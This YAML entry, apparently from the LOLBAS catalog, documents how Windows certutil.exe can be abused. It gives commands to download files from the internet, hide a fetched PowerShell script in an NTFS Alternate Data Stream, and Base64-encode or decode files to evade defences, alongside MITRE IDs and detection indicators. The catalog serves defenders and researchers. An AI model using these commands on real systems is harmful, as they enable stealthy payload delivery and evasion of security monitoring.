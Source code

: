 ```yaml
---
Name: Certutil.exe
Description: Windows binary used for handeling certificates
Author: 'Oddvar Moe'
Created: '2018-05-25'
Commands:
  - Command: certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
    Description: Download and save 7zip to disk in the current folder.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: certutil.exe -verifyctl -f -spli http://7-zip.org/a/7z1604-x64.exe 7zip.exe
    Description: Download and save 7zip to disk in the current folder.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
    Description: Download and save a PS1 file to an Alternate Data Stream (ADS).
    Usecase: Download file from Internet and save it in an NTFS Alternate Data Stream
    Category: ADS
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: certutil -encode inputFileName encodedOutputFileName
    Description: Command to encode a file using Base64
    Usecase: Encode files to evade defensive measures
    Category: Encode
    Privileges: User
    MitreID: T1027
    MitreLink: https://attack.mitre.org/wiki/Technique/T1027
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: certutil -decode encodedInputFileName decodedOutputFileName
    Description: Command to decode a Base64 encoded file.
    Usecase: Decode files to evade defensive measures
    Category: Decode
    Privileges: User
    MitreID: T1140
    MitreLink: https://attack.mitre.org/wiki/Technique/T1140
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\certutil.exe
  - Path: C:\Windows\SysWOW64\certutil.exe
Code_Sample: 
  - Code:
Detection:
  - IOC: Certutil.exe creating new files on disk
  - IOC: Useragent Microsoft-CryptoAPI/10.0
  - IOC: Useragent CertUtil URL Agent
Resources:
  - Link: https://twitter.com/Moriarty_Meng/status/984380793383370752
  - Link: https://twitter.com/mattifestation/status/620107926288515072
  - Link: https://twitter.com/egre55/status/1087685529016193025
Acknowledgement:
  - Person: Matt Graeber
    Handle: '@mattifestation'
  - Person: Moriarty
    Handle: '@Moriarty_Meng'
  - Person: egre55
    Handle: '@egre55'
---
```

